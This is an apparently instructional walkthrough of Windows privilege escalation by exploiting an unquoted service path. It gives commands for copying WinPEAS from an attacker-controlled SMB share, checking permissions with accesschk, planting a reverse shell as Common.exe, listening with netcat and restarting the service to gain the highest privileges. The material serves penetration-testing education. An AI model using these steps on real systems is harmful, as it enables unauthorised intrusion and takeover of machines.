









Introduction
In this article, we will explain how to escalate privileges by exploiting an Unquoted Service Path. Before we begin the practical demonstration, we need to understand a few important concepts so that everything we do during exploitation is clear.
What is an Unquoted Service Path?
Some Windows services have executable paths that contain spaces. When these paths are not enclosed in quotation marks (" "), Windows handles them differently. Let us look at an example to see exactly how Windows treats them.
Suppose we have the following service path:
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
When the service runs, Windows will traverse the path folder by folder, attempting to execute each folder name as an .exe file. Specifically, it will try the following paths in order:
C:\Program.exeC:\Program Files\Unquoted.exeC:\Program Files\Unquoted Path Service\Common.exeC:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
Windows keeps trying each path until it finds a valid executable and runs it. Our goal is to check each folder leading up to the service executable (unquotedpathservice.exe) to see if any of them have write permissions. If we find a writable folder, we place our reverse shell there, named to match the next folder in the path, so that Windows executes it before reaching the legitimate service executable.
Walkthrough

Step 1: Confirm Low-Privilege Access
As usual, we are logged in as a limited user with the goal of escalating to the highest privileges on the system.

Step 2: Transfer and Run WinPEAS
Next, we use the WinPEAS tool. This tool is well-known and needs no introduction -- it enumerates the system to find potential privilege escalation vectors through services and other misconfigurations.
First, we transfer the script to the compromised system. You can do this via an SMB server or an HTTP server. In this case, we use an SMB server with a Python tool that you can download from GitHub:
After downloading the tool, it requires two inputs:
- shareName: you can use any folder name you choose
- sharePath: the path to the folder containing the script you want to transfer to the compromised system
After setting up the SMB server, run the following command on the compromised system to download the WinPEAS script (replace the IP with your Kali machine's IP):
copy \\<attacker_ip>\<shareName>\winPEASx64.exe C:\PrivEsc\winPEASx64.exe
Then run the script:
C:\PrivEsc\winPEASx64.exe
We can see that the script reports a service with an unquoted path.


Step 3: Verify Start/Stop Permissions
Before we begin exploitation, we need to verify an important prerequisite: do we have permission to start and stop the service? If we cannot start or stop the service, we cannot exploit it.
First, query the service status:
sc query unquotedsvc
Then, use the accesschk tool to check whether we can start and stop the service. You can download accesschk from the Sysinternals suite:
Upload accesschk to the compromised system and run the following command:
accesschk.exe /accepteula -ucqv unquotedsvc
We can see that we have permission to start and stop the service.

Step 4: Check Write Permissions on Path Folders
Now we check each folder in the service path to determine which ones we have write permissions on. The service path is:
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
We use the following command to check permissions on each folder:
accesschk.exe /accepteula -uwdq "C:\"
We can see that we do not have write or read permissions on the C:\ directory.
Let us check the next folder:
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
We can see that the Unquoted Path Service folder grants us write and read permissions. This is the folder we will use.

Step 5: Place the Reverse Shell
Since we have write access to the Unquoted Path Service directory, and the next folder in the path is Common Files, we name our reverse shell Common.exe and place it in the writable directory:
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
When Windows tries to resolve the unquoted path, it will find Common.exe in this directory and execute it before ever reaching the legitimate unquotedpathservice.exe.


Step 6: Set Up a Listener
Set up a netcat listener on the port specified in your reverse shell payload:
nc -lvp <port>

Step 7: Start the Service
All that remains is to start the service. Windows will follow the path resolution order we described earlier and execute our reverse shell:
net start unquotedsvc
Result
After starting the service, we receive a reverse shell connection with the highest privileges on the system. We have successfully escalated our privileges through an Unquoted Service Path.
